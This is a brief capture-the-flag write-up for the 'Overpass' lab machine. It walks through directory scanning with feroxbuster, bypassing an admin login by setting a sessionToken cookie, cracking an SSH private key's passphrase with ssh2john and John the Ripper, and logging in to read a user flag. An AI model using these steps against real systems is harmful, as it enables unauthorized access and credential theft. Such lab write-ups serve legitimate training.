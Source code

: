 # Overpass

Ip address: 
```bash
ip = 10.10.47.241
```


## Scanning the webserver

Scanning the webserver with the tool "feroxbuster"
`feroxbuster --url http://10.10.47.241/`

Results:

An admin page is found

## /admin/

Login is required. Jsoncode says:
```javascript
If (result == "unauth or something")
{

}
else{
	setCookie("sessionToken", anyvalue);
}
```

SO: By setting this cookie we can log in.

## /admin/ (logged in)

This shows an RSA private key

-> Decrypt the password with John the Ripper

1. use JohnTheRipper (ssh2john) -> with `wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py`
```bash
python ssh2john.py id_rsa > id_rsa.hash
```
2. Use JohnTheRipper again but to crack the hash

use the wordlist from `/usr/share/wordlists/rockyou.txt`

The full command is: `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`

My password is: `james13`

## SSH into the server

cat the users.txt file